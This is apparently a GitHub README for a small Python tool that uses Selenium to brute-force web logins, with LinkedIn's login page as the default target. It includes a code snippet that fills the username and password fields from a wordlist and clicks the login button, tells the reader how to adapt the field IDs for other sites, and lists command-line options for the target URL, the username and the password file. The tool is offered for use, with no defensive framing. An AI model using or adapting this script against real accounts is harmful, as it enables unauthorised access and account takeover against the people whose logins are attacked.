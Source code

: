 # Selenium-Brute-Force
A simple python script for doing brute-force attack using selenium.

## Help
- The default script is useful for Linkedin, but it works for everything. For other platforms, it needs to extract username id, password id, and login button class using browser inspector.

![](https://github.com/mohammadkamrani/Selenium-Brute-Force/blob/main/file/help.jpg)<br />

put them in code.
```python
username = driver.find_element_by_id("username")		
username.clear()
print("username: "+curuser)
username.send_keys(curuser)		
password = driver.find_element_by_id("password")
password.clear()
print("password: "+passw+"\n")
password.send_keys(passw)			
driver.find_element_by_class_name('login__form_action_container').click()
```
- -h, --help  show this help message and exit
- -t    target's url: https://www.linkedin.com/uas/login
- -u    username
- -p    wordlist: for example password.txt

![](https://github.com/mohammadkamrani/Selenium-Brute-Force/blob/main/file/video.gif)

